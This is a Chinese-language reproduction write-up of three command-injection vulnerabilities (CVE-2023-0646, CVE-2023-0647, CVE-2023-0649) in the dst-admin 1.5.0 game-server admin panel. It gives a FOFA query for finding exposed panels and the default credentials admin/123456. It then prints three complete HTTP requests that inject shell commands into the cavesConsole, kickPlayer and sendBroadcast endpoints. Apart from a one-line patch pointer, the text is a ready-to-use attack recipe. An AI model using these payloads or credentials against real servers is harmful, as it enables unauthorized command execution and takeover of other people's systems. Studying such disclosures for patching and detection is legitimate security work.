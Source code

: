 
# dst-admin 饥荒管理后台 RCE 漏洞复现（CVE-2023-0646、CVE-2023-0647、CVE-2023-0649）

### 0x01 产品简介

  dst-admin 饥荒管理后台是 qinming99 个人开发者的一个用 Java 语言编写的 web 程序。

### 0x02 漏洞概述

  dst-admin 饥荒管理后台 kickPlayer、cavesConsole、sendBroadcast 等接口处配置不当，导致破解口令后的攻击者可以进行[命令注入](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)，获取服务器权限。

### 0x03 影响范围

dst-admin 1.5.0 版本

### 0x04 复现环境

[FOFA](https://so.csdn.net/so/search?q=FOFA&spm=1001.2101.3001.7020)：title=="饥荒管理后台"

![](assets/1701071165-847417b16930cf5977a6d99e06d6a913.png)

### 0x05 漏洞复现 

弱口令登录

admin/123456

**CVE-2023-0646**

```cobol
POST /home/cavesConsole HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json
Cookie: JSESSIONID=65b0f393-708f-4e03-b564-52b1bc0b683a;rememberMe=deleteMe;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"command":"\"&ping Dnslog;\""}
```

![](assets/1701071165-ab8279041a66f2956465fcb9e5ac041f.png)

 **CVE-2023-0647**

```cobol
GET /home/kickPlayer?userId=%5C%22)%5Cn%22%26ping+Dnglog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=93ab200b-a15d-4ac6-8138-abfa1262b5f5;rememberMe=deleteMe;
```

![](assets/1701071165-6ff8f1d73437da7b30c6100fd5693371.png)

**CVE-2023-0649**

```cobol
GET /home/sendBroadcast?message=%5C%22)%5Cn%22%26ping+dnslog%26screen%20-S%20%22DST_CAVES%22%20-p%200%20-X%20stuff%20%22TheNet%3AKick(%5C%22 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cookie: JSESSIONID=94d5d20b-036a-41bf-a77c-334d2be0ed80;rememberMe=deleteMe;
Accept-Encoding: gzip
```

![](assets/1701071165-92fe6060aabf8830797883278fc6e75b.png)

### ![](assets/1701071165-733d6d45d2e5efbbce91daf3f5dee863.png) 0x06 修复建议 

目前厂商已发布升级补丁以修复漏洞，

补丁获取链接：https://github.com/qinming99/dst-admin
